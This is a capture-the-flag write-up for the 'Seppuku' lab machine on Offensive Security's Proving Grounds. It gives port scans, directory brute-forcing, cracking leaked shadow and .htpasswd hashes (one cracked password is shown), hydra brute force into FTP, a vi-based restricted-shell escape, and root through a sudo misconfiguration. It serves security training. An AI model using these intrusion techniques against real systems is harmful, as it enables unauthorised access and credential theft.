

# Seppuku
**Date:** February 21st 2023

**Author:** j.info

**Link:** [**Proving Grounds**](https://portal.offensive-security.com/proving-grounds/play) on Offensive Security

**PG Difficulty Rating:** Easy

<br>


<br>

## Objectives
- local.txt flag
- proof.txt flag

<br>

## Initial Enumeration

### Nmap Scan

`sudo nmap -Pn -sV -sC -T4 $ip`

```
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 3.0.3
22/tcp   open  ssh         OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
80/tcp   open  http        nginx 1.14.2
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=Restricted Content
|_http-title: 401 Authorization Required
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.9.5-Debian (workgroup: WORKGROUP)
8088/tcp open  http        LiteSpeed httpd
|_http-title: Seppuku
|_http-server-header: LiteSpeed
Service Info: Host: SEPPUKU; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time: 
|   date: 2023-02-21T00:10:58
|_  start_date: N/A
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.9.5-Debian)
|   Computer name: seppuku
|   NetBIOS computer name: SEPPUKU\x00
|   Domain name: \x00
|   FQDN: seppuku
|_  System time: 2023-02-20T19:10:58-05:00
|_clock-skew: mean: 1h40m01s, deviation: 2h53m13s, median: 1s
```

An additional all ports scan shows us:

```
PORT     STATE SERVICE       VERSION
7080/tcp open  ssl/empowerid LiteSpeed
|_http-title: Did not follow redirect to https://192.168.104.90:7080/
| ssl-cert: Subject: commonName=seppuku/organizationName=LiteSpeedCommunity/stateOrProvinceName=NJ/countryName=US
| Not valid before: 2020-05-13T06:51:35
|_Not valid after:  2022-08-11T06:51:35
|_http-server-header: LiteSpeed
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|   h2
|   spdy/3
|   spdy/2
|_  http/1.1
7601/tcp open  http          Apache httpd 2.4.38 ((Debian))
|_http-title: Seppuku
|_http-server-header: Apache/2.4.38 (Debian)
```

<br>

### Gobuster Scan

`gobuster dir -u http://$ip -t 40 -r -x php,txt,html -w dir-med.txt -b 401,404`

```
/info.php             (Status: 200) [Size: 80297]
```

`gobuster dir -u http://$ip:7601 -t 40 -r -x php,txt,html -w dir-med.txt`

```
/index.html           (Status: 200) [Size: 171]
/secret               (Status: 200) [Size: 1745]
/database             (Status: 200) [Size: 749]
/a                    (Status: 200) [Size: 735]
/b                    (Status: 200) [Size: 735]
/c                    (Status: 200) [Size: 735]
/t                    (Status: 200) [Size: 735]
/r                    (Status: 200) [Size: 735]
/d                    (Status: 200) [Size: 735]
/f                    (Status: 200) [Size: 735]
/e                    (Status: 200) [Size: 735]
/h                    (Status: 200) [Size: 735]
/w                    (Status: 200) [Size: 940]
/q                    (Status: 200) [Size: 735]
/production           (Status: 200) [Size: 16697]
/keys                 (Status: 200) [Size: 1139]
/stg                  (Status: 200) [Size: 739]
```

`gobuster dir -u http://$ip:8088 -t 40 -r -x php,txt,html -w dir-med.txt`

```
/index.html           (Status: 200) [Size: 171]
/index.php            (Status: 200) [Size: 163188]
/docs                 (Status: 200) [Size: 5472]
/blocked              (Status: 403) [Size: 1227]
```

`gobuster dir -u http://$ip:7601/production -t 40 -r -x php,txt,html -w dir-med.txt`

```
/index.html           (Status: 200) [Size: 16697]
/assets               (Status: 200) [Size: 1534]
/forms                (Status: 200) [Size: 1378]
/changelog.txt        (Status: 200) [Size: 331]
```

<br>

## Website Digging

Visiting the main page requests that we login:


Checking out port 7080 gives us a 404 not found.

Connecting to port 7601 and 8088 show us the following:


I don't see a robots.txt on any of the ports.

The individual letters with a size of 735 from the gobuster scan on port 7601 are all empty, but the /w directory does have something in it:


Looks like we'll potentially be doing some hydra on the port 80 webpage using this. I download it to my system for later use.

The /stg and /database directories are empty.

Looking at /keys gives us a private key, which I download to my system:


And /secret:


The hostname file just says seppuku in it and the password.lst file is the same file we found in /w.

The jack.jpg image file, which thankfully did not contain any sort of steganogrpahy:


The passwd.bak and shadow.bak are what it looks like, and we find a username and password hash.

`cat passwd.bak | grep bash`

```
root:x:0:0:root:/root:/bin/bash
rabbit-hole:x:1001:1001:,,,:/home/rabbit-hole:/bin/bash
```

`cat shadow.bak`

```
r@bbit-hole:$6$2/SxUdFc$Es9XfSBlKCG8fadku1zyt/HPTYz3Rj7m4bRzovjHxX4WmIMO7rz4j/auR/V.yCPy2MKBLBahX29Y3DWkR6oT..:18395:0:99999:7:::
```

Given the username I almost skipped trying to crack this hash, but I gave it a try using the password.lst file we found on the webpage and it cracks:

`john hash.txt --wordlist=password.lst`


I try and SSH over with these credentials but they don't work with or without the private key we found. It doesn't work with FTP, SMB, or the port 80 webpage either.

After that I try to brute force the r@bbit-hole user on all of these services as well but don't have any luck.

Back to port 7601 I look at /production which looks like it's a Siimple website:


Our gobuster scan showed us a couple directories to look at but I don't find anything useful in them.

I run enum4linux and it provides me with some usernames, so that should be very helpful when paried with the password.lst file we found:


<br>

## SMB Digging

Seeing if we can view the SMB shares:

`smbclient -L //$ip`

```
Password for [WORKGROUP\kali]:

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        IPC$            IPC       IPC Service (Samba 4.9.5-Debian)
Reconnecting with SMB1 for workgroup listing.

        Server               Comment
        ---------            -------

        Workgroup            Master
        ---------            -------
        WORKGROUP
```

Trying to use a null session with them:


I create a file called users.txt and add the 3 users to it we found from enum4linux and then use hydra to try and brute force into SMB with the password.lst file and those users, but no luck.

<br>

## FTP Digging

I check to see if anonymous access is allowed and it's not.

I try again to brute force with hydra and this time it works:


And logging in works, and gives us the users home directory:


<br>

## System Access

Given it's a home directory when logging in with FTP I'm betting these same credentials will work to SSH over:


Sure enough, we're in!

<br>

## System Enumeration

Waiting for us in our home directory is the local.txt flag:

`wc -c /home/seppuku/local.txt`

```
33 /home/seppuku/local.txt
```

I run a check for files with capabilities and it looks like we're stuck in the rbash restricted shell:


I ran into this before on the DC-2 box and am going to try and use the same technique here that worked there, which is opening up vi, setting a shell, and then calling it. Here's how you do that:

```
Start the vi editor
Type   :set shell /bin/bash
Type   :shell
```

It works, we can now run the getcap command again but there isn't anything we can use there.

You can also run the `echo $0` command to echo your current shell for verification.

I check for misconfigured SUID files using `find / -perm /4000 2>/dev/null` and don't find anything out of the ordinary.

I notice a file in our home directory called .passwd and it contains what looks like a password. Let's see where I can use that.

I look and see what other users are on the system and find that it works with one of them:


We successfully move over to the samurai user but again are stuck in the rbash restricted shell. This time the vi trick doesn't work for some reason, so I use python to call a shell instead:


I check `sudo -l` and see we can run something, but what we can run doesn't actually exist. Something tells me we can take advantage of this if we can login as tanto.


Over in /var/www/html there is a file called secret_file.pcpang which I open up with Wireshark, but it's a dead end.

Over in /etc/nginx we find a username and password hash combo in the .htpasswd file:

```
admin:$apr1$sHVvV4Vi$FFQ2lYSWSsNM/gDRPXPgr1
```

I start up hashcat and it cracks:

`hashcat -m 1600 -w 3 -D 1,2 hash.txt password.lst`

```
$apr1$sHVvV4Vi$FFQ2lYSWSsNM/gDRPXPgr1:Football

Session..........: hashcat
Status...........: Cracked
```

This lets me login to the port 80 webpage but it just displays the picture we've already seen and doesn't have anything else there that I can find.

I had forgotten about the private key we downloaded from the /keys directory on port 7061 earlier and this makes me think we should try it with our last remaining user we haven't been logged in as.

`ssh -i private tanto@$ip`


Sure enough!

Running `sudo -l` shows we need a password.

<br>

## Root

I look again at the sudo -l from the samurai user and it's:

```
(ALL) NOPASSWD: /../../../../../../home/tanto/.cgi_bin/bin /tmp/*
```

Let's try and create that directory as tanto, and then create a file called bin that actually just calls bash. If that works we'll be able to escalate over to root since we can run it with sudo privileges.



And when I run the sudo command over on the samurai user we get root!


Over in the root directory our final proof.txt flag is waiting for us:

`wc -c /root/proof.txt`

```
33 /root/proof.txt
```

<br>

With that we've completed this CTF!


<br>

## Conclusion

A quick run down of what we covered in this CTF:

- Basic enumeration with **nmap** and **gobuster**
- Cracking password hashes with both **John the Ripper** and **hashcat**
- Enumerating system usernames using **enum4linux**
- Using **hydra** to brute force our way into FTP and SSH giving us intial access to the system
- Finding ourselves in a **restricted shell** and using **vi** and **python** to break out of it
- Using **Wireshark** to analyze a .pcapng file
- Laterally moving to 2 additional user accounts after our initial foothold using credentials found on the system and a recovered SSH key
- Finding that one of the users can run a binary with sudo privileges, but that binary doesn't actually exist on the system and it's in a user's home directory we don't have write access to
- Logging in as that other user and creating the binary, which we set to just call /bin/bash, and then switching back to the other account and calling it with sudo to escalate to root

<br>

Many thanks to:
- [**Offensive Security**](https://www.offensive-security.com/) for hosting this CTF
